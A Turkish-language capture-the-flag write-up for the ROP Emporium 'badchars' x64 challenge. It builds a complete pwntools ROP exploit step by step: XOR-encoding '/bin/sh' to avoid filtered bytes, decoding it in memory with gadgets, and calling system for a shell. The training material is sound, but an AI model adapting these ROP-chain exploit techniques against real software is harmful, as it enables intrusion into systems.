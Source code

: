 # ROP Emporium `badchars` Writeup

![detail](img/detail.png)

x64 mimaride dosyamızı indirdik.

Bu bölümde girdiğimiz karakterlerin bazıları kontrolde geçmektedir.

![badchars](img/strings.png)

Çalıştırmak istediğimiz `/bin/sh` komutunun içerisindeki birçok karakter gördüğümüz üzere `badchars` olarak belirlenmiş bulunmakta. Bizden de bu problemi çözerek komutumuzu çalıştırmamız beklenmektedir.

Bunun için öncelikle `usefulGadgets` isimli fonksiyonumuza bakalım.

![usefulGadgets](img/usefulGadgets.png)

`xor` işlemi olduğunu görüyoruz. O halde `/bin/sh` komutumuzu xor işlemine sokabiliriz.

```python
# ROP Emporium badchars Exploit

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

print("Encoded /bin/sh = " + xor_bin_sh)

```

```bash
[alp@eren]$ python exploit.py
Encoded /bin/sh = -`kl-qj
```

Komutumuzun 2 ile `xor` işleminin sonucuna baktığımız zaman herhangi bir sıkıntı olmadığını görebiliriz.

Planımız şu şekilde:

  - `xor_bin_sh` adresimiz ve `.got.plt` adresimizi birer registera kaydedip daha sonra `xor_bin_sh` i  `.got.plt` alanımıza kaydedeceğiz.

  - `.got.plt` içerisine kaydettiğimiz `/bin/sh` komutunu decode edeceğiz

  - `.got.plt` adresimizi arg0 registerımıza kaydettikten sonra `system` fonksiyonunu çağıracağız.

Bize gerekli olan adresleri bulalım...

```bash
gdb-peda$ ropsearch "pop r12"
Searching for ROP gadget: 'pop r12' in: binary ranges
0x00400b3b : (b'415c415dc3')	pop r12; pop r13; ret
```

```bash
gdb-peda$ ropsearch "pop r14"
Searching for ROP gadget: 'pop r14' in: binary ranges
0x00400b40 : (b'415e415fc3')	pop r14; pop r15; ret
0x00400bb0 : (b'415e415fc3')	pop r14; pop r15; ret
```

```bash
gdb-peda$ disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400b30 <+0>:	xor    BYTE PTR [r15],r14b
   0x0000000000400b33 <+3>:	ret    
   0x0000000000400b34 <+4>:	mov    QWORD PTR [r13+0x0],r12
   ...
```

```bash
[alp@eren]$ objdump -d badchars| grep "system"
00000000004006f0 <system@plt>:
```

```bash
gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400b39 : (b'5fc3')	pop rdi; ret
0x00400b43 : (b'5fc3')	pop rdi; ret
0x00400bb3 : (b'5fc3')	pop rdi; ret
```

İhtiyacımız olan herşeyi bulduk gibi artık exploitimizi yazmaya başlayabiliriz.

```python
# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

# encoded /bin/sh
for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

```

Adreslerimizi yerleştirdik. Şimdi öncelikle belleğimizi doldurtuktan sonra `r12` registerına `xor_bin_sh` değerimizi, `r13` registerına ise `.got.plt` adresimizi yazacağız. `mov_r13_r12` ile de kayıt etmiş olacağız


```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0) # system@plt

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

```

XOR işlemi ile encode ettiğimiz `/bin/sh` komutumuzu belleğimizin içerisine kaydettikten sonra bunu artık bellek içerisinde decode etmemiz gerekecek. Böylece `badchars` olarak tanımlanmış karakterlere takılmadan başarılı bir şekilde komutumuz bellek içerisine yazılmış olacaktır

```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

for x in range(len(xor_bin_sh)):
    payload += pop_r14_r15
    payload += p64(xor_byte)
    payload += p64(0x601000 + x) # .got.plt address + x
    payload += xor_r15_r14

```

Decode işlemini de gerçekleştirdikten sonra artık `rdi` yani arg0 değeri alan registerımızın üzerine `.got.plt` adresimizi yazmaya geldi. Daha sonra `system` fonksiyonumuzu çağırarak bellek içerisinde decode etmiş olduğumuz komutumuzu çalıştıracağız.

```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

for x in range(len(xor_bin_sh)):
    payload += pop_r14_r15
    payload += p64(xor_byte)
    payload += p64(0x601000 + x) # .got.plt address + x
    payload += xor_r15_r14

payload += pop_rdi
payload += got_plt
payload += system

elf = process("./badchars")
print (elf.recv())
elf.sendline(payload)
elf.interactive()

```

Exploitimiz bu kadar. Artık çalıştırıp `flag.txt` dosyasını okuyabiliriz.

![flag](img/flag.png)
